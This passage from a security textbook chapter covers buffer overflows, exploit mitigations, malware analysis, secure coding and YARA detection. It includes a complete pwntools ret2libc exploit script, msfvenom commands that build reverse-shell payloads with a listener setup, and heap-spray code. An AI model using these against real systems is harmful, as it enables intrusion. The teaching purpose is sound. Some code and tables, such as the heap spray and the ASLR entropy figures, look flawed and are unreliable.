  registryKeys: [
    'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\svchost',
  ],
  fileOperations: [
    'C:\\Users\\victim\\docs\\report.docx.encrypted',
    'C:\\Users\\victim\\docs\\photo.jpg.encrypted',
    'C:\\Users\\victim\\docs\\invoice.pdf.encrypted',
    'C:\\Users\\victim\\docs\\budget.xlsx.encrypted',
    'C:\\Users\\victim\\docs\\backup.zip.encrypted',
    'C:\\Users\\victim\\docs\\notes.txt.encrypted',
  ],
  networkConnections: [
    'evil-c2.com:8080',
    '192.168.1.100:4443',
    'malware-panel.net:443',
  ],
};

const result = classifier.classify(sample);
console.log(`Family: ${result.family}`);
console.log(`Confidence: ${(result.confidence * 100).toFixed(0)}%`);
console.log('Behaviors:', result.behaviors.join(' | '));
console.log('MITRE ATT&CK:', result.mitreMapping.join(' | '));
```

---

## Mermaid Diagrams

### 1. Buffer Overflow Attack Process


This flowchart illustrates the step-by-step process of a classic stack-based buffer overflow attack: crafting input that overflows a local buffer, overwriting the saved return address, and redirecting execution to attacker-controlled shellcode.

```mermaid
flowchart LR
    subgraph Step1["1️⃣ Craft Malicious Input"]
        A[Attacker prepares payload:\nshellcode + padding + new return address]
        B[Payload exceeds target buffer size]
    end

    subgraph Step2["2️⃣ Stack Corruption"]
        C[Buffer allocated on stack\nwith fixed capacity]
        D[Overflow writes past buffer boundary]
        E[Saved EBP overwritten]
        F[Return address overwritten\n→ now points to shellcode]
    end

    subgraph Step3["3️⃣ Control Flow Hijack"]
        G[Function executes RET instruction]
        H[EIP loaded with overwritten\nreturn address → shellcode]
        I[Shellcode executes\n→ attacker gains interactive shell]
    end

    Step1 --> Step2
    Step2 --> Step3
    A --> B
    B --> C
    C --> D
    D --> E
    E --> F
    F --> G
    G --> H
    H --> I

    style Step1 fill:#fff3e0,stroke:#ff9800
    style Step2 fill:#fce4ec,stroke:#f44336
    style Step3 fill:#ffebee,stroke:#d32f2f
```



### 2. Secure Software Development Lifecycle (SSDLC)


The SSDLC integrates security gates at every phase of development. This diagram maps security activities (threat modeling, SAST, DAST, fuzzing, pen testing) to each SDLC phase, with feedback loops ensuring continuous improvement.

```mermaid
flowchart LR
    subgraph Req["📋 Requirements"]
        R1[Security Requirements]
        R2[Threat Modeling<br/>STRIDE / DREAD]
        R3[Risk Assessment]
        R4[Security Acceptance<br/>Criteria]
    end

    subgraph Des["🎨 Design"]
        D1[Secure Architecture<br/>Review]
        D2[Attack Surface<br/>Analysis]
        D3[Data Flow Diagrams<br/>+ Trust Boundaries]
        D4[Privacy Impact<br/>Assessment]
    end

    subgraph Impl["💻 Implementation"]
        I1[Secure Coding<br/>Standards]
        I2[SAST Scanning<br/>Flawfinder / Semgrep]
        I3[Peer Code Review<br/>+ Security Checklist]
        I4[Dependency Scanning<br/>OWASP Dependency-Check]
    end

    subgraph Test["🧪 Testing"]
        T1[DAST / Dynamic<br/>Scanning]
        T2[Fuzz Testing<br/>AFL / libFuzzer]
        T3[Penetration Test]
        T4[Vulnerability<br/>Scanning]
    end

    subgraph Dep["🚀 Deployment"]
        Dep1[Hardened<br/>Configuration]
        Dep2[Secrets Management<br/>Vault / KMS]
        Dep3[Immutable<br/>Infrastructure]
        Dep4[Security Gateway<br/>Review]
    end

    subgraph Mnt["🔧 Maintenance"]
        M1[Patch Management<br/>+ CVE Tracking]
        M2[Vulnerability<br/>Monitoring]
        M3[Incident Response<br/>Plan + Tabletop]
        M4[Periodic Security<br/>Audits]
    end

    Req --> Des --> Impl --> Test --> Dep --> Mnt
    Mnt -.->|Continuous Feedback| Req

    style Req fill:#e3f2fd,stroke:#1565c0
    style Des fill:#e8f5e9,stroke:#2e7d32
    style Impl fill:#fff3e0,stroke:#ef6c00
    style Test fill:#fce4ec,stroke:#c62828
    style Dep fill:#f3e5f5,stroke:#6a1b9a
    style Mnt fill:#e0f2f1,stroke:#00695c
```



---

## Chapter Quiz

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | ASLR defeats buffer overflow exploitation by: | Encrypting all memory regions | Randomizing memory address layouts | Preventing writes to the buffer | Compiling with stack canaries | B |
| 2 | DEP/NX prevents execution of code on: | The stack only | Marked non-executable memory pages | The text segment | Kernel memory only | B |
| 3 | A ROP chain is used to: | Increase buffer size | Chain existing code gadgets to execute arbitrary behavior | Encrypt shellcode | Disable ASLR | B |
| 4 | The Morris Worm primarily spread via: | Email attachments | USB drives | fingerd buffer overflow and sendmail DEBUG | JavaScript malware | C |
| 5 | NotPetya's initial infection vector was: | A phishing email | Compromised ME Doc accounting software update | USB drive | SQL injection | B |
| 6 | The SolarWinds SUNBURST backdoor communicated via: | Raw TCP sockets | HTTP disguised as Orion Improvement Program telemetry | DNS tunneling | ICMP covert channel | B |
| 7 | Stuxnet used how many zero-day exploits? | 1 | 2 | 4 | 7 | C |
| 8 | Which SSDLC phase uses threat modeling (STRIDE)? | Requirements | Design | Implementation | Testing | B |
| 9 | A stack canary protects against: | Stack buffer overflow detection | SQL injection | Format string attacks | Heap overflow | A |
| 10 | Which tool performs static analysis on C/C++ code? | AFL | Flawfinder | Process Monitor | Metasploit | B |

---

*End of Chapter 4 → System & Software Security*
<!-- This file contains additional content merged into the main file via concatenation -->

---

## Extended Interview Corner (Q13–Q20)

### Q13: Explain heap spraying as an exploitation technique.


**A:** Heap spraying places many copies of shellcode (or NOP sled + shellcode) across the heap by making many allocations containing the payload. When an attacker controls an indirect call through a corrupted heap pointer or virtual function table, any of these sprayed addresses is likely to land in shellcode.

**Analogy:** Instead of threading a needle (precise return address overwrite), you fill the room with needles pointing in every direction, then throw a dart (indirect call). The dart will hit a needle somewhere.

```javascript
// JavaScript heap spray example (browser exploit)
// Allocate hundreds of heap blocks filled with NOP sled + shellcode
var shellcode = unescape("%u90%u90%u90%u90%u90%u90%u90%u90%u90%u90..." + shellcode);
var nop_sled = "%u9090%u9090%u9090%u9090";
while (spray.length < 500) {
    spray.push(nop_sled + shellcode);  // allocate sprayed blocks
}
// Now trigger a heap corruption that dereferences a
// heap pointer → it will likely land in one of the sprayed blocks
```

**Defense:** ASLR randomizes heap base; heap isolation separates different types of objects.

### Q14: What is the difference between staged and stageless shellcode?


**A:**

| Aspect | Stageless | Staged |
|--------|-----------|--------|
| **Single payload** | Contains the full executable code in one shot | Small first-stage downloads larger second-stage |
| **Size** | Large (200–800 bytes) | Small (100–300 bytes for stage 1) |
| **Reliability** | Self-contained, no network needed post-exploit | Requires network connectivity for stage retrieval |
| **Detection** | Larger static signature | Stage 1 is small/hard to detect; stage 2 is not in memory initially |
| **Use case** | Stable exploits, no outbound allowed | Limited buffer space, need flexibility |

**msfvenom examples:**
```bash
# Stageless: full reverse shell in one payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f c

# Staged: small stager downloads meterpreter
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f c
```

### Q15: How does ASLR differ between 32-bit and 64-bit Linux?


**A:** The entropy available for randomization differs substantially:

| Component | 32-bit Entropy | 64-bit Entropy |
|-----------|---------------|----------------|
| Stack | 19 bits (19–24 bits on older kernels) | 22 bits (11 bits on older kernels) |
| mmap (shared libraries) | 8 bits (256 positions) + 16 bits possible | 28 bits (on x86_64, 256TB user space) |
| Heap | 13 bits | 13 bits + 30 bits |

**Practical impact:** On 32-bit, brute-forcing ASLR for libc is feasible (~2^8 = 256 attempts worst case). On 64-bit, direct brute-force is infeasible (~2^28 attempts).

### Q16: What is SEHOP and how does SafeSEH differ?


**A:** **SEHOP** (Structured Exception Handler Overwrite Protection) validates the integrity of the entire SEH chain before dispatching an exception. It walks the linked list of EXCEPTION_REGISTRATION_RECORD structures and verifies:
1. The chain ends with the final handler (`ntdll!FinalHandler`)
2. No record points to the stack or heap (common overflow targets)
3. All records are within valid module address ranges

**SafeSEH** is a compile-time option that builds a table of valid exception handler addresses for each module. At exception dispatch, the OS verifies the handler address is in this table.

**Difference:** SafeSEH checks individual handler validity; SEHOP checks chain integrity. Both are needed for robust protection.

### Q17: Explain return-to-libc and when you would use it over a full ROP chain.


**A:** Return-to-libc (ret2libc) redirects execution to a single libc function → typically `system("/bin/sh")`. The stack layout is:

```
[ padding ][ &system() ][ fake_ret_addr ][ &"/bin/sh" ]
```

Use ret2libc when:
- You have very limited overflow space (cannot fit a full ROP chain)
- You only need to call one function
- ASLR is off or known (or you've leaked libc base)

Use full ROP when:
- The function you need has multiple arguments (x86_64 convention uses `rdi`, `rsi`, `rdx`, etc.)
- You need to call multiple functions
- You need to bypass ASLR with complex logic
- You need to set up a syscall (`execve` needs rax, rdi, rsi, rdx)

### Q18: How would you detect a rootkit on a Linux system?


**A:** Detection techniques in order of increasing reliability:

```bash
# 1. Userland checks (unreliable → rootkit hooks these)
lsmod          # may be hooked to hide modules
ps aux         # may be hooked to hide processes
netstat -tlnp  # may be hooked to hide ports

# 2. Cross-view detection (compare /proc with syscall results)
cat /proc/modules     # vs lsmod → discrepancy indicates hooking
cat /proc/net/tcp     # vs netstat → port hiding detection

# 3. Known rootkit scanners
chkrootkit
rkhunter --check

# 4. Memory forensics (most reliable)
# Use LiME to acquire memory, Volatility to analyze
# Volatility plugins: linux_check_syscall, linux_check_modules,
# linux_check_fop, linux_check_creds, linux_check_afinfo

# 5. Boot from trusted media
# Reboot from a clean CD/USB, mount the disk, and examine
# Compare file hashes against package manager database
dpkg --verify       # Debian/Ubuntu
rpm -Va             # RHEL/CentOS
```

### Q19: What is the difference between black-box, white-box, and grey-box fuzzing?


**A:**

| Type | Knowledge | Coverage Info | Speed | Example |
|------|-----------|---------------|-------|---------|
| **Black-box** | None (binary only) | None | Moderate | Random mutation, Peach Fuzzer |
| **White-box** | Full source + symbolic execution | Path constraints | Slow | SAGE, KLEE, angr |
| **Grey-box** | Binary instrumentation | Partial (basic block coverage) | Fast | AFL, libFuzzer, Honggfuzz |

**Grey-box** is the most practical for real-world use. AFL uses lightweight compile-time instrumentation to track which edges (branch transitions) are exercised by each input. Coverage feedback guides mutation toward new paths.

### Q20: Explain how the Stuxnet PLC rootkit worked at the code level.


**A:** Stuxnet replaced the legitimate `s7otbxdx.dll` (Siemens Step 7 communication library) with a trojanized version. This DLL handled all communication between the engineering workstation and Siemens S7 PLCs.

**Original flow:**
```
Step 7 → s7otbxdx.dll → MPI/Profibus → PLC → Frequency Converter → Centrifuge
```

**Stuxnet-modified flow:**
```
Step 7 → STUXNET s7otbxdx.dll → [interceptor] → PLC → [modified values] → Centrifuge

Interception logic:
1. READ from PLC: intercept the read call
   - If reading centrifuge speed data, return recorded "normal" values (playback attack)
   
2. WRITE to PLC: intercept the write call
   - If writing to centrifuge frequency converter, modify to dangerous frequencies
   - Increase rotor speed beyond safe limits (cascade failure)
   - Then rapidly decrease (mechanical stress)
   
3. After 27 minutes of sabotage, record normal values
   - Wait 27 days before next sabotage cycle (stealth)
```

**PLC payload components:**
- **DP_RECV hook** → intercepted Profibus communication at the PLC level
- **OB1 (Organization Block 1) modification** → PLC main cycle modified
- **FC1865/FC1866** → malicious function blocks injected into PLC
- **Attack thresholds** → specific to centrifuge rotor frequencies (1,064 Hz / 1,410 Hz)

This was the first known malware to cause physical destruction by manipulating industrial control processes.

---

## Extended Secure Coding Examples

### C/C++: Integer Overflow Leading to Buffer Overflow


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void vulnerable_copy(size_t user_len, const char *data) {
    // Integer overflow vulnerability!
    // If user_len = 0xFFFFFFFF and header = 16, user_len + 16 wraps to 15
    size_t total = user_len + 16;  // vulnerable addition
    char *buffer = malloc(total);
    if (!buffer) return;

    // memcpy(user_len) writes a massive amount
    // because total is small but user_len is large
    memcpy(buffer + 16, data, user_len);
    free(buffer);
}

void safe_copy(size_t user_len, const char *data) {
    const size_t HEADER_SIZE = 16;

    // Check for overflow before doing arithmetic
    if (user_len > SIZE_MAX - HEADER_SIZE) {
        fprintf(stderr, "Size overflow detected\n");
        return;
    }
    size_t total = user_len + HEADER_SIZE;
    char *buffer = malloc(total);
    if (!buffer) return;

    memcpy(buffer + HEADER_SIZE, data, user_len);
    free(buffer);
}

int main() {
    // Unsafe: this would wrap around
    // safe_copy(0xFFFFFFFF, "AAAA");

    printf("Integer overflow example compiled.\n");
    return 0;
}
```

### Java: XML External Entity (XXE) Prevention


```java
import javax.xml.parsers.*;
import org.w3c.dom.*;
import java.io.*;

public class SecureXMLParser {
    public static Document parseXMLSafe(String xmlContent) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();

        // XXE mitigations → OWASP recommended
        factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
        factory.setXIncludeAware(false);
        factory.setExpandEntityReferences(false);

        DocumentBuilder builder = factory.newDocumentBuilder();
        return builder.parse(new ByteArrayInputStream(xmlContent.getBytes()));
    }

    // Unsafe parser → susceptible to XXE
    public static Document parseXMLUnsafe(String xmlContent) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        // All features are default → XXE attacks work
        DocumentBuilder builder = factory.newDocumentBuilder();
        return builder.parse(new ByteArrayInputStream(xmlContent.getBytes()));
    }
}
```

### Java: Path Traversal Prevention


```java
import java.io.*;
import java.nio.file.*;

public class SecureFileAccess {
    private static final String BASE_DIR = "/var/app/data/";

    public static String readFileSafe(String filename) throws IOException {
        // Canonicalize the requested path
        Path requestedPath = Paths.get(BASE_DIR, filename).normalize();
        Path canonicalPath = requestedPath.toRealPath();
        Path basePath = Paths.get(BASE_DIR).toRealPath();

        // Ensure the resolved path is within the base directory
        if (!canonicalPath.startsWith(basePath)) {
            throw new SecurityException("Path traversal detected: " + filename);
        }

        return Files.readString(canonicalPath);
    }

    // UNSAFE version → vulnerable to ../../../etc/passwd
    public static String readFileUnsafe(String filename) throws IOException {
        return Files.readString(Paths.get(BASE_DIR + filename));
    }
}
```

### JavaScript: Prototype Pollution Prevention


```javascript
// UNSAFE → prototype pollution vulnerability
function merge(target, source) {
    for (let key in source) {
        if (source.hasOwnProperty(key)) {
            target[key] = source[key];  // can set __proto__ or constructor.prototype
        }
    }
    return target;
}

// SAFE → filter out dangerous keys
function safeMerge(target, source) {
    const DANGEROUS_KEYS = ['__proto__', 'constructor', 'prototype'];

    for (let key in source) {
        if (source.hasOwnProperty(key)) {
            if (DANGEROUS_KEYS.includes(key)) {
                throw new Error(`Forbidden key: ${key}`);
            }
            target[key] = source[key];
        }
    }
    return target;
}

// SAFER → use Object.assign with null prototype
function saferMerge(target, source) {
    const clean = Object.create(null);  // no __proto__ at all
    const DANGEROUS_KEYS = ['__proto__', 'constructor', 'prototype'];

    for (let key of Object.keys(source)) {
        if (!DANGEROUS_KEYS.includes(key)) {
            clean[key] = source[key];
        }
    }
    return Object.assign(target, clean);
}

// Demonstration
const payload = JSON.parse('{"__proto__": {"admin": true}}');
const obj = {};
try {
    safeMerge(obj, payload);
    console.log("Protected:", obj.admin);  // undefined
} catch (e) {
    console.log("Blocked:", e.message);     // Forbidden key: __proto__
}
```

### Node.js: Preventing Command Injection


```javascript
const { exec, execFile, spawn } = require('child_process');
const path = require('path');

// ❌ UNSAFE: User input directly in shell command
function backupUser_raw(username) {
    exec(`tar -czf /backups/${username}.tar.gz /home/${username}`,
         (err, stdout, stderr) => {
             if (err) console.error(err);
         });
}

// ✅ SAFE: Whitelist valid usernames
const VALID_USERS = new Set(['alice', 'bob', 'charlie']);

function backupUser_safe(username) {
    if (!VALID_USERS.has(username)) {
        throw new Error(`Invalid user: ${username}`);
    }
    execFile('tar', ['-czf', `/backups/${username}.tar.gz`, `/home/${username}`],
             { shell: false },
             (err, stdout, stderr) => {
                 if (err) console.error(err);
             });
}

// ✅ SAFER: Parameterized with spawn
function backupUser_safer(username) {
    if (!/^[a-zA-Z0-9_]+$/.test(username)) {
        throw new Error('Invalid username format');
    }
    const child = spawn('tar', ['-czf', `/backups/${username}.tar.gz`, `/home/${username}`],
                          { shell: false });
    child.on('exit', (code) => {
        console.log(`Backup exited with code ${code}`);
    });
}
```

---

## Extended Practical: ROP Chain Walkthrough with pwntools

### Full Exploit Script for ret2libc with ASLR Bypass


```python
#!/usr/bin/env python3
# exploit.py → Full ROP exploitation for a 64-bit ASLR + NX binary
# Target binary has: no PIE (fixed .text), but ASLR and NX enabled.
# Vulnerability: format string for info leak + gets() for overflow.
from pwn import *

# Configuration
elf = ELF('./vuln64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Addresses from binary (no PIE here but we use example values for reference)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
pop_rdi = 0x4012b3  # pop rdi; ret → from binary

def exploit():
    # ============ STAGE 1: Leak libc address via puts(puts@GOT) ============
    payload1 = b"A" * 40           # padding to return address (64-bit)
    payload1 += p64(pop_rdi)       # return to pop_rdi gadget
    payload1 += p64(puts_got)      # rdi = puts@GOT (address to leak)
    payload1 += p64(puts_plt)      # call puts (prints actual libc address)
    payload1 += p64(main_addr)     # return to main for stage 2

    # Send stage 1
    p = process('./vuln64')
    p.recvuntil(b"> ")             # wait for prompt
    p.sendline(payload1)
    p.recvline()                   # skip newline

    # Parse leaked address (6 bytes from puts@GOT)
    leaked = u64(p.recv(6).ljust(8, b'\x00'))
    log.info(f"Leaked puts@GOT: {hex(leaked)}")

    # Calculate libc base
    libc.address = leaked - libc.symbols['puts']
    log.info(f"Libc base: {hex(libc.address)}")

    # ============ STAGE 2: ret2libc with system("/bin/sh") ============
    bin_sh = next(libc.search(b'/bin/sh'))
    system_addr = libc.symbols['system']
    ret_gadget = 0x40101a         # ret (for stack alignment)

    payload2 = b"A" * 40
    payload2 += p64(ret_gadget)    # stack alignment (movaps issue)
    payload2 += p64(pop_rdi)
    payload2 += p64(bin_sh)        # rdi = &"/bin/sh"
    payload2 += p64(system_addr)   # call system("/bin/sh")

    p.recvuntil(b"> ")
    p.sendline(payload2)
    p.interactive()

if __name__ == "__main__":
    exploit()
```

### Explanation of the movaps Stack Alignment Issue


On x86_64, the `movaps` instruction (used in `system()`'s prologue) requires 16-byte stack alignment. If the stack is misaligned when `system()` is called, it crashes. Adding a single `ret` gadget before the target function pops one more 8-byte value, adjusting the stack by 8 and restoring 16-byte alignment.

---

## Extended Malware Analysis: Ransomware Encryption Flow



## Extended Fuzzing: libFuzzer Example

```c
// fuzz_target.c → compile with clang -fsanitize=fuzzer,address -o fuzz_target fuzz_target.c
#include <stdint.h>
#include <stddef.h>
#include <string.h>
#include <stdlib.h>

int vulnerable_parse(const uint8_t *data, size_t size) {
    if (size < 8) return -1;

    // Potential integer overflow
    uint32_t len = *(uint32_t *)data;
    if (size < 8 + len) return -1;

    // Potential buffer overflow
    char buf[64];
    if (len >= 64) return -1;

    memcpy(buf, data + 8, len);  // If len is miscalculated, this overflows
    buf[len] = '\0';

    // Potential format string vulnerability
    if (buf[0] == '%') {
        printf(buf);  // format string bug!
    }

    return 0;
}

// libFuzzer entry point
int LLVMFuzzerTestOneInput(const uint8_t *Data, size_t Size) {
    vulnerable_parse(Data, Size);
    return 0;
}
```

```bash
# Compile and run
clang -fsanitize=fuzzer,address -g -o fuzz_target fuzz_target.c
./fuzz_target -max_len=128 -timeout=5 -runs=1000000
```

Sample output:
```
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 12345678
INFO:        1 files found in testcases/
INFO: -max_len is not provided; libFuzzer will not generate inputs larger than 4096 bytes
INFO: A corpus is not provided, starting from an empty corpus
#2     INITED cov: 4 ft: 5 corp: 1/1b exec/s: 0 rss: 35Mb
#7     NEW    cov: 6 ft: 7 corp: 2/10b exec/s: 0 rss: 36Mb
#13    NEW    cov: 8 ft: 9 corp: 3/20b exec/s: 0 rss: 36Mb
#42    NEW    cov: 10 ft: 12 corp: 4/32b exec/s: 0 rss: 37Mb
#173   REDUCE cov: 10 ft: 12 corp: 4/28b exec/s: 0 rss: 37Mb
#174   NEW    cov: 11 ft: 14 corp: 5/36b exec/s: 0 rss: 37Mb
==12345== ERROR: AddressSanitizer: heap-buffer-overflow
    #0 0x4f5a3a in memcpy
    #1 0x4f58d0 in vulnerable_parse fuzz_target.c:21:5
    #2 0x4f57c0 in LLVMFuzzerTestOneInput fuzz_target.c:33:5
SUMMARY: AddressSanitizer: heap-buffer-overflow fuzz_target.c:21
```

---

## Extended Exploit Development: Shellcode for Windows

### Windows x86 MessageBox Shellcode


```nasm
; windows_msgbox.asm
; nasm -f win32 windows_msgbox.asm -o windows_msgbox.obj
; Display a MessageBox and exit

BITS 32

section .text
global _start

_start:
    ; Get kernel32 base address from PEB
    xor eax, eax
    mov eax, [fs:eax + 0x30]     ; PEB
    mov eax, [eax + 0x0C]        ; LDR
    mov eax, [eax + 0x14]        ; InMemoryOrderModuleList (first = kernel32)
    mov eax, [eax]               ; second module
    mov eax, [eax]               ; third module
    mov eax, [eax + 0x10]        ; kernel32 base address

    ; Find GetProcAddress in kernel32 export table
    ; (simplified → full implementation walks PE export directory)
    ; ...

    ; Call MessageBoxA
    push 0                       ; MB_OK
    push 0x0073736573            ; "sess" + null
    push 0x20676e69              ; "ing "
    push 0x6c656e6e              ; "nnel"
    push 0x61684320              ; " Cha"
    push 0x65766168              ; "have"
    push 0x20756f59              ; "You "
    mov esi, esp
    push 0
    push esi
    push esi
    push 0
    call MessageBoxA

    ; ExitProcess(0)
    push 0
    call ExitProcess
```

### msfvenom for Windows: Meterpreter Payload


```bash
# Windows x64 staged meterpreter reverse HTTPS
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.5 LPORT=443 \
         -b "\x00\x0a\x0d" -f exe -o meterpreter_https.exe

# Windows x86 VBS injection payload
msfvenom -p windows/vncinject/reverse_tcp LHOST=10.0.0.5 LPORT=4444 \
         -b "\x00" -f vba

# PowerShell one-liner (fileless)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 \
         -b "\x00" -f psh-reflection

# Start multi-handler in msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j
```

---

## Extended SSDLC: Threat Modeling Example (STRIDE for Web Application)

### E-commerce Application Threat Model


| STRIDE Category | Threat | Severity | Mitigation |
|----------------:|--------|----------|------------|
| **S**poofing | Attacker impersonates another user | High | Strong authentication (MFA), session management with HttpOnly/Secure cookies |
| **T**ampering | Modify price field in POST request | Critical | Server-side price validation, signed transaction data |
| **R**epudiation | User denies placing an order | Medium | Audit logging of all transactions, digital signatures |
| **I**nformation Disclosure | Leak credit card numbers via SQLi | Critical | Parameterized queries, encryption at rest (AES-256), tokenization |
| **D**enial of Service | Botnet floods checkout endpoint | High | Rate limiting, Web Application Firewall (WAF), CDN DDoS protection |
| **E**levation of Privilege | Customer gains admin panel access | Critical | Role-based access control (RBAC), input validation on admin actions |

**Risk scoring with DREAD:**

| Threat | Damage | Reproducibility | Exploitability | Affected | Discoverability | Total |
|--------|--------|-----------------|----------------|----------|-----------------|-------|
| SQLi price manipulation | 10 | 10 | 8 | 10 | 9 | 47/50 |
| Admin privilege escalation | 10 | 5 | 5 | 10 | 7 | 37/50 |
| Session hijacking | 8 | 6 | 7 | 9 | 8 | 38/50 |
| DDoS | 7 | 10 | 8 | 10 | 8 | 43/50 |

---

## Extended Malware Analysis: YARA Rules

### Creating YARA Rules for Malware Detection


```yara
// solarwinds_malware.yar
rule SUNBURST_Backdoor {
    meta:
        description = "Detect SolarWinds SUNBURST backdoor DLL"
        author = "Security Analyst"
        reference = "CISA AA20-352A"
        hash = "b91d9dce4cb6a0d769b8ea2d9e3a8d0e"

    strings:
        $s1 = "SolarWinds.Orion.Core.BusinessLayer.OrionImprovementBusinessLayer"
        $s2 = "OrionImprovementBusinessLayer"
        $s3 = "HTTP/1.1" wide
        $s4 = "Microsoft-Server-Activation-Via-MS" wide
        $s5 = "solarwinds.com" wide

    condition:
        uint16(0) == 0x5A4D and           // MZ header
        all of ($s1, $s2, $s3) and
        2 of ($s4, $s5)
}

rule NotPetya_Wiper {
    meta:
        description = "Detect NotPetya ransomware/wiper"
        reference = "CERT-UA No. 1379"

    strings:
        $mbr = { 48 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 }
        $s1  = "Ooops, your important files are encrypted." wide
        $xor_key = { 7C 52 B5 3A 96 B7 B7 E8 }

    condition:
        ($mbr at 0) or
        ($s1 at 0) and
        #s1 > 0
}

rule Generic_Shellcode {
    meta:
        description = "Detect common x86 NOP sled + execve shellcode"
    strings:
        $nop_sled = { 90 90 90 90 90 90 90 90 }
        $execve_1 = { 31 C0 B0 0B 31 DB 31 C9 31 D2 CD 80 }
        $execve_2 = { 31 C0 50 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 50 53 89 E1 B0 0B CD 80 }
        $msf_tcp  = { 6A 02 89 E1 6A 66 58 89 44 24 ?? CD 80 }

    condition:
        $nop_sled and (any of ($execve_*)) or ($msf_tcp)
}
```

### Running YARA Scan


```bash
# Scan a directory with all rules
yara -r -s solarwinds_malware.yar C:\samples\

# Scan with multiple rule files
yara -r rules/*.yar suspicious_file.exe

# Output
SUNBURST_Backdoor C:\samples\SolarWinds.Orion.Core.BusinessLayer.dll
0x1a340:$s1: SolarWinds.Orion.Core.BusinessLayer.OrionImprovementBusinessLayer
0x2f100:$s2: OrionImprovementBusinessLayer
```

---

## Extended Practical: HashDiff and PE Analysis Walkthrough

### Complete PE Analysis Workflow


```powershell
# ============ STEP 1: Initial Triage ============
# Get file metadata
Get-Item .\suspicious.exe | Format-List *
$hash = Get-FileHash .\suspicious.exe -Algorithm SHA256
Write-Host "Hash: $($hash.Hash)"
# -> Check against VirusTotal API

# ============ STEP 2: Digital Signature Check ============
# Sysinternals Sigcheck
sigcheck -a -h suspicious.exe

# Output:
# Signed:    Unsigned
# Publisher: <none>
# Description:  <none>
# File Version: 1.0.0.0
# Original Name: NOT suspicious.exe (should match filename)
# Entropy:  7.98 (HIGH → packed/encrypted)

# ============ STEP 3: String Analysis ============
# Sysinternals Strings
strings.exe -n 8 suspicious.exe | Select-String -Pattern "http|https|cmd|powershell|encrypt|decrypt|C2|server|socket|connect"

# Output:
# http://185.234.72.18/update.php
# cmd.exe /c %s
# powershell -enc
# SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# CreateRemoteThread
# VirtualAllocEx
# WriteProcessMemory

# ============ STEP 4: Import Analysis with PowerShell ============
# Check suspicious imports
$bytes = [System.IO.File]::ReadAllBytes(".\suspicious.exe")
# PE offset is at 0x3C
$peOffset = [System.BitConverter]::ToUInt32($bytes, 0x3C)
Write-Host "PE Header at: 0x$($peOffset.ToString('X'))"

# IMAGE_FILE_HEADER at peOffset+4
$machine = [System.BitConverter]::ToUInt16($bytes, $peOffset + 4)
Write-Host "Machine: 0x$($machine.ToString('X'))"  # 0x14C = i386, 0x8664 = x64

# ============ STEP 5: HashDiff ============
# Compare with known clean version
$cleanHash = (Get-FileHash .\clean_version.dll -Algorithm MD5).Hash
$suspectHash = (Get-FileHash .\suspicious.dll -Algorithm MD5).Hash

if ($cleanHash -ne $suspectHash) {
    Write-Host "WARNING: DLL has been modified!"
    Write-Host "Clean:    $cleanHash"
    Write-Host "Suspect:  $suspectHash"
}

# ============ STEP 6: Import Diff with PEStudio ============
# (Manual instructions if PEStudio not installed)
Write-Host @"
Check these PEStudio indicators:
1. Sections with entropy > 7.0
2. Suspicious imports (VirtualAlloc, CreateRemoteThread, etc.)
3. TLS callbacks (anti-debugging)
4. Rich header mismatch (masquerading)
5. Non-standard section names (.text, .data, .rdata are normal)
"@
```

---

## Extended Edge Cases and Corner Cases

### Buffer Overflow Edge Cases


| # | Edge Case | Behavior | Exploitation Impact |
|---|-----------|----------|---------------------|
| 1 | Overflow of exactly 1 byte past buffer | Overwrites lowest byte of saved EBP → triggers stack frame shift ("EBP off-by-one" or "poisoned null byte") | Can redirect frame pointer to controlled stack area |
| 2 | Buffer allocated on heap with function pointer after it | Overflow corrupts function pointer, not return address | No stack canary protection; arbitrary call on next fnptr dereference |
| 3 | Unicode/wide character overflow | `wcscpy` copies 2-byte characters; overflow measured in wchar_t units | Different offset calculation; may embed null bytes differently |
| 4 | Stack clash (CVE-2017-1000364) | Stack grows into another memory region (heap/mmap) | Bypasses guard page; heap areas become stack-contiguous |
| 5 | Variable-length array (VLA) on stack | Array size computed at runtime from user input | Can allocate massive stack frames; smash the stack without strcpy |
| 6 | Alloca with negative value | `alloca(-1)` acts as `alloca(0xFFFFFFFF)` → wraps and allocates tiny buffer | Massive overflow on subsequent write |
| 7 | Off-by-one null byte (as in glibc malloc) | `strncpy` leaves buffer non-null-terminated if source >= n; subsequent `strlen` reads beyond | Information leak via adjacent memory |
| 8 | sigaltstack overflow | Overflows alternate signal stack (sigaltstack) | Corrupts signal handler frame; can hijack execution during signal delivery |

### Malware Edge Cases


| # | Edge Case | Behavior | Analysis Impact |
|---|-----------|----------|-----------------|
| 1 | Time-based evasion (sleep 2 weeks) | Malware remains dormant before activating | Sandbox timeout bypass; need long-running analysis |
| 2 | VM/hypervisor detection | Checks MAC prefix (00:0C:29, 00:50:56), registry keys, hardware IDs | Static analysis required; behavioral sandboxes fail |
